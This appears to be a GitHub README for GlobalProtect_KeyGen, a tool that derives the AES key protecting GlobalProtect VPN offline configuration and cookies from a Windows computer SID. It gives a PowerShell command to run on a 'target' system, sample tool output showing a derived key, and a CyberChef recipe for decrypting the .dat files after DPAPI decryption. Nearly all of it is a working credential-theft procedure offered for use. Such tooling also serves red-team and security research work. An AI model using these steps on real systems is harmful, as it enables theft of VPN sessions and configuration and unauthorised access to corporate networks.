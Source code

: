 # GlobalProtect_KeyGen

Tool for generating encryption key to decrypt offline GlobalProtect VPN configuration and cookies using the Computer SID.

## Usage

Obtain Computer SID of target (execute on target system)
```
((get-wmiobject -query "Select * from Win32_UserAccount Where LocalAccount = TRUE").SID -replace "\d+$","" -replace ".$")[0]
```

Run offline to obtain encryption key
```
> GlobalProtect_KeyGen.exe
Usage: GlobalProtect_KeyGen.exe Computer_SID_VALUE
```

```
> GlobalProtect_KeyGen.exe S-1-5-21-3853142505-1760735370-2458319090
[*] Deriving AES key from computer SID
        [*] Computer SID : S-1-5-21-3853142505-1760735370-2458319090
        [*] Computer SID (Hex) : 010400000000000515000000E949AAE58AB0F268F2F88692
        [*] Derived AES Key: FFD40E0D6894B0582E3AA0F2899F9FBEFFD40E0D6894B0582E3AA0F2899F9FBE
```

## Decrypt .dat files (after DPAPI decryption -> [dpapi.py](https://github.com/fortra/impacket/blob/master/examples/dpapi.py)) using CyberChef
https://gchq.github.io/CyberChef/#recipe=AES_Encrypt(%7B'option':'Hex','string':'FFD40E0D6894B0582E3AA0F2899F9FBEFFD40E0D6894B0582E3AA0F2899F9FBE'%7D,%7B'option':'Hex','string':'0000000000000000'%7D,'CBC','Raw','Hex',%7B'option':'Hex','string':''%7D)

## Original Source Code
https://github.com/rotarydrone/GlobalUnProtect

